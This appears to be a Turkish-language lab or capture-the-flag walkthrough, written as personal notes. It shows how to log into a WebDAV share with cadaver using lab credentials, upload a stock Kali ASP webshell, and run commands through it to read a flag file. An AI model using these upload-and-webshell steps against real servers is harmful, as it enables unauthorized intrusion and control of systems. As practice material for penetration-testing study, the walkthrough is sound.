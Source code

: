 ## cadaver
#cadaver-webdav
#webdav 
![[Pasted image 20240131234753.png]]
![[Pasted image 20240131234916.png]]
### Biz yukarıda sisteme .asp uzantılı dosya yukleyebileceğimizi gördük. Şimdi asp uzantılı bir payload yaratacağız. Bunu Cadever ile WEBDAV içine yollayıp tetikleyeceğiz.

---
![[Pasted image 20240131235108.png]]
```
cadaver http://10.2.17.124/webdav
```
Username: bob
Password: password123321
#### Bizi webdav içine soktu bu credential'lerle.

---
## Kali Webshell's
![[Pasted image 20240131235516.png]]
### Kali içinde usr/share/webshells de web de kullanılaca shell kodlar hazır bulunuyor. bunları kendi IP'mize Portumuza göre düzenleyip karşı tarafa gönderip tetiklediğimizde reverse shellimizi alırız. Keyfimize bakarız.

![[Pasted image 20240131235725.png]]

```
dav:/webdav/> put /usr/share/webshells/asp/webshell.asp
```
![[Pasted image 20240131235907.png]]
### /webdav directory'e asp uzantılı shellimizi koyduğumuzu görebilirsin.
## Webshell'lerde site üzerinden shell alıyormusuz.
##### ipconfig
![[Pasted image 20240201000138.png]]
![[Pasted image 20240201000049.png]]
## dir C:\
![[Pasted image 20240201000305.png]]
### Bizim için önemli olan flag.txt dosyasını okumak.
```
type C:\flag.txt
```

---